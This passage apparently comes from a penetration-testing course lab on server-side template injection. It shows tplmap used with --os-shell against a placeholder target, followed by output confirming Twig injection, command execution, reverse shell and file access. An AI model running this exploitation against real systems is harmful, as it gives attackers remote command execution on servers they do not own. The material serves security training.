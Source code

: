 
As we can see in the output/response above, the submitted payload was evaluated, and the specified commands (`id`, `uname -a`, and `hostname`) were executed successfully.

Again, we could have automated the template engine exploitation process we just executed through [tplmap](https://github.com/epinna/tplmap), as follows.

**tplmap.py - OS Shell**

SSTI Exploitation Example 1

```shell-session
AIceBear@htb[/htb]$ ./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john --os-shell

[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if POST parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '*'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
[+] Mako plugin is testing blind injection
[+] Python plugin is testing rendering with tag 'str(*)'
[+] Python plugin is testing blind injection
[+] Tornado plugin is testing rendering with tag '{{*}}'
[+] Tornado plugin is testing blind injection
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin is testing blind injection
[+] Twig plugin is testing rendering with tag '{{*}}'
[+] Twig plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  POST parameter: name
  Engine: Twig
  Injection: {{*}}
  Context: text
  OS: Linux
  Technique: render
  Capabilities:

   Shell command execution: ok
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, php code

[+] Run commands on the operating system.

Linux $ 
```

We can now execute any command of our choosing through the shell `tplmap` established for us!

Now, proceed to this section's exercise and complete the objective either by crafting the payload yourself or through a shell obtained with the help of `tplmap`.
